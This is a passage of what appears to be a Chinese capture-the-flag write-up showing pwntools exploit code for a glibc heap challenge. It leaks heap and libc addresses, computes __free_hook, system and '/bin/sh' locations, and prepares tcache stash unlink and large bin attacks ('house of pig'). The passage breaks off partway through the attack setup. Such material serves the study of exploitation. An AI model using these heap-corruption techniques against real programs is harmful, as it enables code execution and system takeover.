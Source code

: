    ```python
   for i in range(0,7):
       add(0,0x87)
       free(0)
   show(0)
   p.recvuntil(b"context: ")
   heap_base = u64(p.recvuntil("\n")[:-1].ljust(8,b"\x00"))-0x520
   success("heap_base==:"+hex(heap_base))
   
   add(0,0x87)
   add(1,0x87)
   free(0)
   show(0)
   #泄漏libc
   p.recvuntil(b"context: ")
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
   
   IO_list_all_addr   = libc_base + libc.symbols["_IO_list_all"]
   _IO_str_jumps_addr = IO_list_all_addr + 0xFC0
   success("_IO_str_jumps_addr ==> " + hex(_IO_str_jumps_addr))
   success("IO_list_all_addr   ==> " + hex(IO_list_all_addr))
   
   #计算__free_hook和system地址
   malloc_hook_addr = libc_base+libc.sym["__malloc_hook"]
   success("malloc_hook_addr==>"+hex(malloc_hook_addr))
   system_addr = libc_base+libc.sym["system"]
   sh_addr = libc_base+next(libc.search("/bin/sh"))
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   success("sh_addr==>"+hex(sh_addr))
   ```

2. 准备tcache stash unlink + 攻击，**将free_hook-0x10写入到tcache**中。先进行第一次large bin attack，往free_hook-8上写入一个堆地址，并安排好small bin中的两个chunk，还要准备好**触发第二次large bin attack的chunk**：

   ```python
   # ========== house of pig ==========
   
   for i in range(0,5):    #在tcache中放5个0xb0的chunk,后面tcache stash unlink +使用
       add(0,0xa0)
       free(0)
   
   add(1,0x87)     # 隔开
   # 先构造好 tcache stash unlink + 
   # 构造两个small bin大小为0xa0，与前面tcache中的对应
   # 用这里的chunk3和chunk4 切割出两个small bin大小为0xa0
   add(3,0x430)
   add(1,0x87)     # 隔开
   add(4,0x430)
   add(1,0x87)     # 隔开
   free(3)
   free(4)
   add(1,0x430-0xb0)
   add(2,0x430-0xb0)
   
   # ========== 第一次 large bin attack ==========
   # 先完成tcache stash unlink + 攻击的前提条件 : 往free_hook写入一个堆地址
   add(2,0x410)    # 触发第一次的 large bin attack 的chunk
   add(1,0xc0)     # 隔开 
   ```